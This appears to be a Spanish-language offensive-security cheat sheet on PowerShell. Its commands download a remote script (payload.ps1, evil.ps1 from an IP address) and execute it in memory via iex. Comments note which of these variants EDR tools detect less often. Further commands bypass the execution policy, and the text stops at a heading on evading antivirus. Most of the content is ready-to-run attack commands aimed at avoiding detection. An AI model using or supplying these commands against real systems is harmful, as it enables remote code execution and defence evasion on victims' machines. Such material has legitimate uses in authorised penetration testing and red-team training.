 Algunas formas de descargar el script y ejecutarlos en memoria:

```
# PowerShell Script Execution
# Todos estos comandos ejecutan el archivo en memoria

### Este es comunmente detectado por los EDR
iex (New-Object Net.WebClient).DownloadString('https://webserver/payload.ps1')

### iwr PSv3 onwards 
iex (iwr 'http://192.168.230.1/evil.ps1')

### ComObject junto a InternetExplorer es menos detectado 
$ie=New-Object -ComObject InternetExplorer.Application;$ie.visible=$False;$ie.navigate('http://192.168.230.1/evil.ps1');sleep 5;$response=$ie.Document.body.innerHTML;$ie.quit();iex $response

### ComObject
$h=New-Object -ComObject Msxml2.XMLHTTP;$h.open('GET','http://192.168.230.1/evil.ps1',$false);$h.send();iex $h.responseText

### WebRequest
$wr = [System.NET.WebRequest]::Create("http://192.168.230.1/evil.ps1")
$r = $wr.GetResponse()
IEX ([System.IO.StreamReader]($r.GetResponseStream())).ReadToEnd()
```
### Execution Policy

La política de ejecución no es un sistema de seguridad que restrinja las acciones de los usuarios. Por ejemplo, los usuarios pueden saltarse fácilmente una política escribiendo el contenido del script en la línea de comandos cuando no pueden ejecutar un script. 

La política de ejecución ayuda a los usuarios a establecer reglas básicas y evita que las violen involuntariamente.

```
# Bypass Execution Policy
### Ejecutar scripts
powershell –ExecutionPolicy bypass

### Ejecutar comandos sin necesidad de un script
powershell –c <cmd>

### Ejecutar un comando codificado en Base64
powershell –encodedcommand

### Cambiar temporalmente la Política de Ejecución a "Bypass"
$env:PSExecutionPolicyPreference="bypass"
```
# Bypassing PowerShell Security/AV

Aqui hay ``bypasses`` y también ``obfuscated bypasses``
## Invi-Shell
